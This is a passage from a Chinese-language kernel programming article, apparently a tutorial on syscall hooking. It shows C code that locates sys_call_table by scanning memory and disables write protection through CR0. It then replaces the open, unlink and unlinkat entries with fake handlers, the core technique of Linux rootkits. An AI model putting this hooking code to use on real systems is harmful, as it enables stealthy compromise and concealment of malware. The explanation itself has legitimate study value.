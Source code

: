 三，在综合考量了几种可选的获取方案之后，笔者决定采用从内核起始地址开始暴力搜索内存空间的方案。 （**但是这种方案有可能被欺骗** 。）

```c
unsigned long **
get_sys_call_table(void)
{
  unsigned long **entry = (unsigned long **)PAGE_OFFSET;

  for (;(unsigned long)entry < ULONG_MAX; entry += 1) {
    if (entry[__NR_close] == (unsigned long *)sys_close) {
        return entry;
      }
  }
  return NULL;
}
```

[PAGE_OFFSET](http://lxr.free-electrons.com/ident?i=PAGE_OFFSET)是内核内存空间的起始地址。 因为[sys_close](http://lxr.free-electrons.com/ident?i=sys_close)是导出函数（需要指出的是， `sys_open` 、 `sys_read` 等并不是导出的），我们可以直接得到他的地址；因为系统调用号 （也就是[sys_call_table](http://lxr.free-electrons.com/ident?i=sys_call_table)这个一维数组的索引） 在同一[ABI](https://en.wikipedia.org/wiki/Application_binary_interface) （x86跟 x64 不是同一 ABI）上具有高度的后向兼容性，更重要的是，我们可以直接使用这个索引（代码中的 `__NR_close` ）！

从内核内存的起始地址开始， 逐一尝试每一个指针大小的内存：把它当成是[sys_call_table](http://lxr.free-electrons.com/ident?i=sys_call_table)的地址， 用某个系统调用的编号（也就是索引）访问数组中的成员，如果访问得到的值刚好是是这个系统调用号所对应的系统调用的地址，那么我们就认为当前尝试的这块指针大小的内存就是我们要找的[sys_call_table](http://lxr.free-electrons.com/ident?i=sys_call_table)的地址。

### 2.关闭写保护

写保护指的是写入只读内存时出错。 这个特性可以通过[CR0](https://en.wikipedia.org/wiki/Control_register#CR0)寄存器控制：开启或者关闭， 只需要修改一个比特，也就是从 0 开始数的第 16个比特。看代码。我们可以使用[read_cr0](http://lxr.free-electrons.com/ident?i=read_cr0) /[write_cr0](http://lxr.free-electrons.com/ident?i=write_cr0) 来读取 /写入 [CR0](https://en.wikipedia.org/wiki/Control_register#CR0) 寄存器，免去我们自己写内联汇编的麻烦。

我们使用了[set_bit](https://www.kernel.org/doc/htmldocs/kernel-api/API-set-bit.html)与[clear_bit](https://www.kernel.org/doc/htmldocs/kernel-api/API-clear-bit.html)。 它们是 Linux 内核提供给内核模块使用的编程接口，简单易懂 

### 3.修改 [sys_call_table](http://lxr.free-electrons.com/ident?i=sys_call_table)

一维数组赋值，当之无愧最简单的方案。当然，我们需要先把真正的值保存好，以备后面之需。

```c
disable_write_protection();
real_open = (void *)sys_call_table[__NR_open];
sys_call_table[__NR_open] = (unsigned long*)fake_open;
real_unlink = (void *)sys_call_table[__NR_unlink];
sys_call_table[__NR_unlink] = (unsigned long*)fake_unlink;
real_unlinkat = (void *)sys_call_table[__NR_unlinkat];
sys_call_table[__NR_unlinkat] = (unsigned long*)fake_unlinkat;
enable_write_protection();
```

### 4.恢复

